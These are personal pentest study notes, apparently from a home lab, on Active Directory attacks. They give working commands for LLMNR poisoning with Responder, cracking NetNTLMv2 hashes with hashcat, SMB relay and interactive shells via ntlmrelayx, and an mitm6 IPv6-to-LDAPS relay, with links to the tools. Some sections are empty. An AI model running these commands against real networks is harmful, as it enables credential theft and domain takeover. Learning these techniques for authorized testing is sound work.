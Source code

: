 
 **1 Netbios && LLMNR Name Poisoning**\
 **2 Relay Attacks**\
 **3 MITM6**\
 **4 MS17-010**\
 **5 Kerberoasting**

---

**1. LLMNR (link local multicasting name resolution:: basically DNS) Poisoning:**\
       - needs traffic - ideal before nmap/nessus scans\
       - responder: 'python /usr/share/responder/Responder.py -L eth0 -rdwv'\
   a) try to access attacker IP address. see ![llmnr_poison](E:\Users\Carl\Documents\Notes\Ethical\Screenshots\admin_malz_llmnr_poison.png)\
       -  'hashcat -m 5600 windowshash.txt /usr/share/wordlists/rockyou.txt'  # --m 5600 module for NetNTLMv2\

---

**2. SMB Relay attacks:**\
       - Requirements:: SMB signing must be disabled, relayed user creds must be admin on machine, && network sharing enabled\
       - setup ntlmrelay see ![ntlmrelay.py](E:\Users\Carl\Documents\Notes\Ethical\Screenshots\ntlmrelay_py.png)\
   a) Find machines w/ smb enabled:\
        'nessus or nmap:: 'nmap --script=smb2-security-mode.nse -p445 192.168.86.0/24'\
            Nmap scan report for oxytocin-dc.lan (192.168.86.205)  (DC)\
            PORT    STATE SERVICE\
            445/tcp open  microsoft-ds\
            Host script results:\
            | smb2-security-mode:\
            |   2.02:\
            |_    Message signing enabled and required'\
   'python3 ntlmrelayx.py -tf targets.txt -smb2support (-i)'  'python3 -m pip install .' for install && -i interactive shell"\
       - Working but keeps failing:: see ![revmalz](Screenshots/revshell_smb_malz.png) && ![break](Screenshots/malz_smb_breaking.png)\
       - For shells W/ creds: ![shells](E:\Users\Carl\Documents\Notes\Ethical\Screenshots\meterpreter_psexec_shells.png)\
               #wmiexec.py && smbexec.py first! psexec and smb metepreter is very noisy##\

---

**3. Pv6 Attacks: DNS relay:**\
    # requirements, must have certificate in DC\
       #manage -> add role/feature -> next(3x) -> AD cert services -> CA -> next && restart -> install -> validity period 99yrs\
       -'sudo python3 mitm6.py -d carbon.local'\
       -'sudo python3 ntlmrelayx.py -6 -t ldaps://192.168.86.205 -wh fakewpad.carbon.local -l lootme'\
       - see ![IPv6_relay](E:\Users\Carl\Documents\Notes\Ethical\Screenshots\relay_ipv6.png)\

---

4. MS17-010\

---

5. \
 
[tutorial] (https://adam-toscher.medium.com/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa)\
[PW list] (https://github.com/danielmiessler/SecLists/tree/master/Passwords)\
[impacket] (https://github.com/SecureAuthCorp/impacket)\
[mitm6] (https://github.com/dirkjanm/mitm6)\
